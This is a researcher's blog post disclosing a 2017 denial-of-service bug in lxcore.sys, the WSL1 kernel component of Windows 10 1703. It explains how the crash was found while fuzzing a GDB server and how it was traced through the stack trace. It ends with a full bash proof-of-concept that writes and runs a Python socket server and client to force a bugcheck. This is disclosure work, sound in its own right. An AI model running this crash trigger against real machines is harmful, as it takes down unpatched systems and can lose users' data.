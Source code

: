 ```yaml
---
id: 438
title: 'Babesia – Windows 10 1703 DoS in lxcore'
date: '2020-01-10T20:04:36+01:00'
author: Martin
layout: post
guid: 'https://www.sundhaug.com/?p=438'
permalink: /w10-1703-bugcheck-in-lxcore/
categories:
    - Hacking
---
```


## Timeline

```
<pre class="wp-block-preformatted">Found at or before May 2nd, 2017
Reported May 2nd~3rd, 2017
Fixed in 10.0.15063.XXX 2017-XX-XX
```

## Demo

<figure class="wp-block-embed-youtube wp-block-embed is-type-video is-provider-youtube wp-embed-aspect-16-9 wp-has-aspect-ratio"><div class="wp-block-embed__wrapper"><span class="embed-youtube" style="text-align:center; display: block;"><iframe allowfullscreen="true" class="youtube-player" height="296" loading="lazy" sandbox="allow-scripts allow-same-origin allow-popups allow-presentation" src="https://www.youtube.com/embed/i99ut6KgdvQ?version=3&rel=1&showsearch=0&showinfo=1&iv_load_policy=1&fs=1&hl=en-US&autohide=2&wmode=transparent" style="border:0;" width="525"></iframe></span></div></figure>## Story

Years ago, while trying to fuzz the GDB-server-implementation in the Nintendo® Game Boy Advance-emulator VBA-M (Visual-Boy Advance), I came upon a few issues. For one, fuzzing on Windows 10, my primary operating-system, was not as easy as I’d like it to. Now this was a fairly easy problem to solve, as Microsoft had just a few months before released their first stable release of the Windows Subsystem for Linux (IIRC, still called Bash on Windows at the time). The second issue, was that I couldn’t find an appropriate protocol-fuzzer for GDB. This required a bit more work, requiring me to write one myself in python. GDB treats a TCP-connection as a serial-port, meaning it reuses the GDB serial-protocol. The GDB serial-protocol is reasonably well documented, so this didn’t pose too many additional hours. Then, there was the big issue: My computer crashing.

<figure class="wp-block-image size-large">![In Norwegian: "Your PC ran into a problem and needs to restart. We're just collecting some error info, and then we'll restart for you.
...
Stop-code SYSTEM_THREAD_EXCEPTION_NOT_HANDLED
What failed: LXCORE.SYS"](https://i0.wp.com/www.sundhaug.com/wp-content/uploads/2020/01/image.png?resize=525%2C386&ssl=1)<figcaption>Picture of the bugcheck</figcaption></figure>A bugcheck, or Blue Screen Of Death, is triggered whenever the Windows kernel detects an error. VBA-M runs in user-mode, as does GDB, as does my python-based fuzzer. Nothing in user-mode should be able to cause a kernel crash and if it does, that’s a bug, and a potential security-issue.

So, now the questions become what’s triggered, where is it triggered, and how is it triggered.

Now, the first clue is in the bugcheck itself, on the bottom-most line: “LXCORE.SYS”. LXCORE.SYS, which was previously known as dates back to Microsofts Project Astoria, and is the core kernel-component of WSL1 (As the name suggests). So now we know what kernel-module is failing, and it’s not too surprising that it is the (then) relatively new WSL1.

The second clue? Well it happens when VBA-M has its GDB-server enabled, but not when it isn’t. Third, when the bugcheck is triggered, Windows writes a memory-dump to the C:\\-drive. The memory-dump includes everything that’s needed to find out what went wrong, including the stack-trace. The stack-trace, or the call-stack if you will, includes references to functions like: “LxpSocketInetStreamShutdownInternal”, “LxpSocketInetStreamFileReleaseInternal”, and “LxpSocketInetStreamAcceptWorkerRoutine”. These functions have a few words in common, such as “Lxp” (possibly LinuX Pico), “Inet” (indicating IP), and “Stream” (in context, TCP). The word “Accept” indicates that it likely has to do with the server accepting a connection.

## Exploit

Now, to test the hypothesis, we need to create the most basic possible “server”, and associated client. To accept a TCP-connection, you need to do three syscalls in a \*nix-system:

1. You need to bind the socket to a port
2. You need to listen on that socket
3. You need to accept the connection

When you do this, and have a client send data early, you end up with a bugcheck. Yay for crashing the PC.

The below exploit is very simple, it’s just a bash-program (with some flare of course), that writes a python client and a python server to disk, then runs both of them for a few seconds (assuming that if the bug is triggered, it’s relatively fast). If the program completes running for more than 1 minute, it’s assumed that the bugcheck has been fixed.

<div class="wp-block-syntaxhighlighter-code ">```
<pre class="brush: bash; title: ; notranslate" title="">
#!/bin/bash
function typewriter
{
    text="$1"
    for i in $(seq 0 $(expr length "${text}")) ; do
        echo -n "${text:$i:1}"
        sleep 0.003
    done
}

function hackify
{
    echo -e "\033[38;2;0;250;0m"
    echo -e "\033[48;2;0;000;0m"
}

typewriter "[ * ] Hackifying terminal"
for i in $(seq 3); do
    echo -n .
    sleep .3
done
hackify
clear
typewriter "[ * ] Terminal hackified"
sleep 1
clear

typewriter "|----------------------------------------|";echo
typewriter "|                                        |";echo
typewriter "|                Babesia                 |";echo
typewriter "|                                        |";echo
typewriter "|             by @sundhaug92             |";echo
typewriter "|                                        |";echo
typewriter "|----------------------------------------|";echo

echo
echo  3
echo "
import socket
import time
s = socket.socket()
s.bind(('0.0.0.0', 55555))
s.listen(1)
s.accept()
while True: time.sleep(1)" > server.py
sleep 1
echo 2
echo -e "
import socket
r = []
while True:
    s = socket.socket()
    s.connect(('localhost', 55555))
    s.send(b'A')
    r.append(s)" > client.py
sleep 1

echo 1
python server.py &
server_pid=$!
sleep 1

python3 client.py &
client_pid=$!
sleep 1
echo IMPACT

for i in $(seq 60); do
    echo -n .
    sleep 1
done

clear

typewriter "https://www.youtube.com/watch?v=w1--BxLy3lg#t=1m39s";echo
typewriter "^ We're still here'";echo
echo
typewriter "killing child-processes"
kill -9 $server_pid $client_pid
```

</div>The exploit is named after Babesia, which is a single-cell parasite.